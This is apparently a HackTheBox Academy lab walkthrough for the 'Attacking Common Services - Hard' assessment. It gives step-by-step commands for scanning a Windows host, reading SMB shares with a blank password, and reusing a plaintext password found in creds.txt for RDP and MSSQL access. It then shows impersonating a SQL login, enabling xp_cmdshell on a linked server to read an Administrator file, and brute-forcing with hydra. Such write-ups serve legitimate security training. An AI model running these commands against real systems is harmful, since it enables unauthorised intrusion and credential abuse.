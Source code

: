 # Attacking Common Services - HARD

>HackTheBox Academy Module Assessment LAB walkthrough
[Attacking SMB](https://academy.hackthebox.com/module/116/section/1167)
[Attacking SQL Databases](https://academy.hackthebox.com/module/116/section/1169)

## port Scan NMAP discovery

```
sudo nmap -p- 10.129.1.2
sudo nmap -p 135,445,1433,3389 -sCV -A -O 10.129.1.2
```

>open ports and services:

```
PORT     STATE SERVICE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

## SMB File Shares

>SMB allows the simon user with blank password to read content on file server shares.  

```
smbmap -u 'simon' -H inlanefreight.htb

smbmap -u 'simon' -H inlanefreight.htb -r Home
```  

>SMB client connect with blank password.  

```
smbclient -U 'simon' \\\\10.129.1.2\\Home

recurse
ls

cd \IT\Simon\>

get random.txt
cd \IT\Fiona\> 
get creds.txt
```

>Content of the file `creds.txt`, is the password for fiona, `48Ns72!bns74@S84NNNSl`.   

## Use discovered user FIONA  

>Remote desktop to windows user as FIONA.  

```
xfreerdp /v:10.129.1.2 /u:fiona /p:'48Ns72!bns74@S84NNNSl' /dynamic-resolution /cert:ignore
```

>Remote connect to Microsoft SQL service as Fiona user.  

```
sqsh -S 10.129.1.2 -U '.\\fiona' -P '48Ns72!bns74@S84NNNSl' -h
```  

>In remote desktop windows session open `cmd` for command prompt.
>run `sqlcmd` as Fiona.  

>Enumerate Database and tables on MSSQL  

```
SELECT name FROM master.dbo.sysdatabases
go

use TestingDB
go

SELECT table_name FROM TestAppDB.INFORMATION_SCHEMA.TABLES
go
```  

## Identify Users that current SQL User can Impersonate  

```
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```


## Impersonate User SQL user account: John  

>As the returned value 0 indicates, we do not have the sysadmin role, but we can impersonate the sa user.
>Let us impersonate the user and execute the same commands.
>To impersonate a user, we can use the Transact-SQL statement EXECUTE AS LOGIN and set it to the user we want to impersonate.

```
EXECUTE AS LOGIN = 'john'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go

```

## Identify linked Servers in MSSQL

>Identify linked Servers in MSSQL.  

```
SELECT srvname, isremote FROM sysservers
go
```

>WINSRV02\SQLEXPRESS
>LOCAL.TEST.LINKED.SRV  


## Execute Commands on Remote LINK SQL Servers  

>The `EXECUTE` statement can be used to send pass-through commands to linked servers. 
>We add our command between parenthesis and specify the linked server between square brackets `([ ])`.  

```
1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
2> go
```

>Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

```
1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
2> go
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
2> go
```

## Exfiltrate Secret Data - Reading the flag  

>Submit the contents of the flag.txt file on the Administrator Desktop.  

```
EXECUTE("EXEC sp_configure 'show advanced options', 1;") AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE("RECONFIGURE") AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE("EXEC sp_configure 'xp_cmdshell', 1;") AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE('xp_cmdshell "type C:\Users\Administrator\Desktop\flag.txt >c:\users\fiona\desktop\x.txt"') AT [LOCAL.TEST.LINKED.SRV]
go
```  

>read content as current user `Fiona`.  

```
type c:\users\fiona\desktop\x.txt
```  

[Attacking Common Services - Hard](https://academy.hackthebox.com/module/116/section/1468)  

## Extra Commands

>These commands did not succeed in providing any foothold, information or lateral movement.  

```
sudo responder -I tun0
```

```
crackmapexec mssql 10.129.79.226 -u 'john' -p secrets.txt --local-auth
``` 

```
hydra -l john -P /usr/share/wordlists/rockyou.txt 10.129.27.28 mssql 
```  

```
sqsh -S 10.129.27.28 -U john -P '48Ns72!bns74@S84NNNSl' -h
```  


